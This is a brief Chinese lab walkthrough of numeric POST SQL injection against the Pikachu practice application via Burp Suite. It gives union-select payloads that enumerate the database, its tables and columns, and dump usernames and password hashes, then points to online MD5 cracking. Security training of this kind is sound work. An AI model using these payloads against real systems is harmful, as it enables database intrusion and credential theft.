





# 数字型注入（post）

　　随便选查询一个，并bp抓包 发送到repeater中

　　在id=1加'

　　id=1'--+继续报错 说明是数字型注入

　　查看列数：

　　id=**1 order by 3--+**  报错 说明只有两列

　　查看显错位：

　　id=**1 union select 1，2--+**

　　查库名和版本：

　　**id=1 union select database(),version()**

　　查询所有表，这里使用mysql5.0以上版本自带的information_schema表

　　id=1 union select group_concat(table_name),2 from information_schema.tables where table_schema='pikachu'

　　查询敏感表users表中所有列

　　id=1 union select group_concat(column_name),2 from information_schema.columns where table_schema='pikachu' and table_name='users'

　　查询用户名和密码：

　　id=1 union select group_concat(username),group_concat(password) from users

　　拿密码去MD5在线解密解密
